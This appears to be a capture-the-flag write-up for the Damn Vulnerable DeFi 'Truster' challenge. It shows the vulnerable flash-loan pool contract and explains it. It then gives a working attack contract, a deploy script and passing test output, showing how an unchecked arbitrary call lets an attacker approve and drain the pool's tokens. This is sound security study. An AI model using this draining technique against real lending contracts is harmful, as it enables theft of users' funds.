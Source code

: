 <img src="https://github.com/wasny0ps/Damn-Vulnerable-DeFi/blob/main/src/3.png">

# Target Contract Review

Given contract.

**TrusterLenderPool.sol**

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import "@openzeppelin/contracts/utils/Address.sol";
import "@openzeppelin/contracts/security/ReentrancyGuard.sol";
import "../DamnValuableToken.sol";

/**
 * @title TrusterLenderPool
 * @author Damn Vulnerable DeFi (https://damnvulnerabledefi.xyz)
 */
contract TrusterLenderPool is ReentrancyGuard {
    using Address for address;

    DamnValuableToken public immutable token;

    error RepayFailed();

    constructor(DamnValuableToken _token) {
        token = _token;
    }

    function flashLoan(uint256 amount, address borrower, address target, bytes calldata data)
        external
        nonReentrant
        returns (bool)
    {
        uint256 balanceBefore = token.balanceOf(address(this));

        token.transfer(borrower, amount);
        target.functionCall(data);

        if (token.balanceOf(address(this)) < balanceBefore)
            revert RepayFailed();

        return true;
    }
}
```

`TrusterLenderPool` is a contract that **allows users to borrow tokens from the pool and execute arbitrary code in a flash loan**.

The constructor function takes an instance of the `DamnValuableToken` contract and assigns it to the token variable.

`flashLoan()` : It allows a borrower to borrow a specified amount of tokens from the pool and execute a target function with provided data. The borrower must provide the amount to borrow, their address, the target contract address, and the data to be executed.

Inside the function, the current balance of the token contract is stored in the `balanceBefore` variable. Then, the specified amount of tokens is transferred from the pool to the borrower's address using the transfer function of the token contract. After that, the target function specified by the borrower is executed using the `functionCall()` function.







Challenge's message:

> More and more lending pools are offering flash loans. In this case, a new pool has launched that is offering flash loans of DVT tokens for free.
The pool holds 1 million DVT tokens. You have nothing.
To pass this challenge, take all tokens out of the pool. If possible, in a single transaction.

# Subverting


```solidity
pragma solidity ^0.8.0;

import "../truster/TrusterLenderPool.sol";
import "@openzeppelin/contracts/token/ERC20/IERC20.sol";

contract AttackTruster {

    TrusterLenderPool pool;
    constructor(address payable _pool){
        pool = TrusterLenderPool(_pool);
    }

    function attack(IERC20 token)external{
        uint balance = token.balanceOf(address(pool));
        bytes memory data = abi.encodeWithSignature("approve(address,uint256)", address(this), balance);
        pool.flashLoan(0, msg.sender, address(token), data);
        token.transferFrom(address(pool), msg.sender, balance);
    }
}
```

```js
const AttackFactory = await ethers.getContractFactory('AttackTruster', deployer);
attack = await AttackFactory.deploy(pool.address);
await attack.connect(player).attack(token.address);
```

```powershell
  [Challenge] Truster
    ✔ Execution (73ms)


  1 passing (2s)

Done in 2.75s.
```

**_by wasny0ps_**
